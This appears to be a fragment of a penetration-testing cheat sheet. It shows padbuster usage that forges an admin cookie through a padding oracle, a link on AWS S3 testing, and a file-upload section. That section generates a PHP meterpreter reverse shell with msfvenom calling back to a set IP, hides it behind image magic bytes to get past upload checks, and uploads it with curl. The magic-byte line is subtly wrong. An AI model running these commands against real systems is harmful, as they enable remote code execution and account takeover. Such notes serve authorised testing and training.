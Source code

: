 [Automated Padding Oracle Attacks with Padbuster](https://blog.gdssecurity.com/labs/2010/9/14/automated-padding-oracle-attacks-with-padbuster.html)

> ###### Arguments

url - first argument is the URL
encrypted - second argument is the encrypted text
bits - third argument is the number of bits per block
-cookies - define a cookie to use
-plaintext - plaintext to encrypt



> ###### Examples

Kali> padBuster.pl http://$TARGET "ENC-COOKIE-TEXT" 8
                                -cookies "ENC-COOKIE"
                                -plaintext '{"user":"admin","role":"admin"}'



##### AWS

> **Resources**

[AWS PENETRATION TESTING PART 1. S3 BUCKETS](https://www.virtuesecurity.com/blog/aws-penetration-testing-s3-buckets/)

##### File Upload

> ###### Make a backdoor GIF

# As a note, try to overwrite the magic bytes of your backdoor with a valid image
# so that the check will validate. This includes Content-Type.
Kali> msfvenom --list | grep php
Kali> msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.15.237 LPORT=54321 -o evil.php
Kali> echo “FFD8FFEo” | xxd -r -p > evil.gif
Kali> cat evil.php >> evil.gif



> ###### Upload From CLI

Kali> curl -X POST
                -F "field1=test"
                -F "file=@/home/user/evil.gif"
                http://$TARGET/upload.php
                --cookie "cookie"



## E-Mail

**Resources**
